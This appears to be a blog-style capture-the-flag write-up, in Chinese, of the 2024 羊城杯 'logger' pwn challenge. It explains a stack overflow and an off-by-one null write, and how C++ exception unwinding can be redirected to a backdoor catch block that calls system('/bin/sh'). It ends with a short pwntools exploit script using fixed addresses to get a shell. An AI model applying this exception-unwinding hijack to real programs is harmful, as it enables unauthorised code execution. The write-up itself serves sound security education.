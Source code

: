 ```yaml
---
title: 2024-羊城杯logger
date: 2024-8-30
categories: 2024-羊城杯
tag: except
---
```

# 前言
当时比赛我没看这题，在搞一个`houseofapple2`的`orw`，由于利用比较麻烦，以及我太菜没搞过类似`io的orw`，导致浪费太久时间。
火箭这次比赛爆上分，提供`TravelGraph`的思路同时砍下`logger和html`，tql！！
# 功能介绍
## main
![main](./logger/main.png)
main函数很明确，一个菜单，两个功能`trace和warn`，由于ida的问题反汇编并不能看到c++的try和catch，下面这张图是汇编代码看到的try和catch
![asm_main_try](./logger/asm_main_try.png)
看到warn函数是在try里面的
![asm_main_catch](./logger/asm_main_catch.png)
然后是main函数对于异常的处理，没什么特别的，就是printf了一下，然后又会回到主循环中。
## warn
![warn_try](./logger/warn_try.png)
可以看到在warn函数中有大的栈溢出，我们或许可以用这个栈溢出来劫持程序流。
问题在于程序也有检查，如果输入字节仅仅大于10就会抛出异常。(以及warn函数中并没有对于这个try的catch处理，所以这个异常会回溯到上一步，由main中的catch处理)
## trace
![trace](./logger/trace.png)
在全局变量段读入数据，每次10字节。
可以发现图中绿色的一行上有一个强制在输入的字符串后面加上`'\x00'`，如果刚好输入0x10个字节则会导致不规范的越界写入`'\x00'`。

遍历的方式是在i属于[0,8]的情况下，如果*(char*)buf[0x10*i] == 0，认为这个未被使用过，就拿来给我们读0x10个字节

我们可以通过在`'Buffer Overflow'`前的一次输入选择输入十个字节，让`'Buffer Overflow'`的第一个字节被覆盖为0，就可以覆盖`'Buffer Overflow'`的前0x10个字节内容，不清楚有什么用，暂且按下不表。
![trace_overflow](./logger/trace_overflow.png)
## c++异常机制
c++关于异常的三个关键词，try，catch，throw。
```c++
try {
    file.open("aaa.txt");
    // 可能出现错误的代码放在try里面
    if (!file.is_open()) { throw FileOpenException("Failed to open file");}
    // 如果出现异常，就throw，并交给对应的catch去处理
} catch (...) {
    // 捕获所有的异常
    std::cerr << "Unknown exception caught." << std::endl;
}
```
catch也可以和try不同时出现，比如某个函数的只有try，而将所有异常交给父函数处理
这一点之所以可以做到是因为c++异常处理会沿着调用链逐层回溯，直到找到catch对错误进行处理为止。(或者是找不到对应的catch，那就会导致程序异常终止)
```c++
void performTask() {
    try {
        riskyOperation(); // 调用可能会抛出异常的函数
    } catch (const std::exception& e) {
        // 捕获并处理来自 riskyOperation 的异常
    }
}

void riskyOperation() {
    try {
        throw std::runtime_error("An error occurred in riskyOperation");
    }
}
```
# 题目思路
由于c++的异常回溯会沿着函数调用链往回找，那我们刚好又可以通过栈溢出覆盖函数返回地址，从而影响函数调用链。
也就是说，我们可以让该异常处理机制误以为他是从另外的某个try块(成为tryA块)调用过来的，应该去tryA块去寻找对应的catch机制
好巧不巧，程序plt段有个system，跟进之后发现了作者留给我们的后门catch块
![backdoor_catch](./logger/backdoor_catch.png)
其中有调用system函数，而system函数的参数正好是指向`'Buffer Overflow'`的指针。

那就思路很清晰了，我们只需通过trace函数覆盖`'Buffer Overflow'`为`'/bin/sh'`，然后覆盖warn函数返回地址为上图最上方的try地址。

不过还有一点值得注意，异常处理既然回到了父函数，那么也会恢复父函数的rbp。而如果能控制rbp的话，肯定还可以有一些别的操作，比如伪造变量，比如通过leaveret二次跳转等等。
# exp
```python
def trace(tosend: bytes):
    io.sendlineafter(b'****************', b'1')
    io.sendafter(b'details', tosend)
    io.sendlineafter(b'check', b'n')

def warn(tosend: bytes):
    io.sendlineafter(b'****************', b'2')
    io.sendafter(b'message', tosend)

for _ in range(7):
    trace(b'skip')
trace(b'a'*0x10)
trace(b'/bin/sh'.ljust(0xf, b'\0'))
payload = b'0'*0x70 + p64(0x404500) + p64(0x401BC4)
warn(payload)
io.interactive()
```


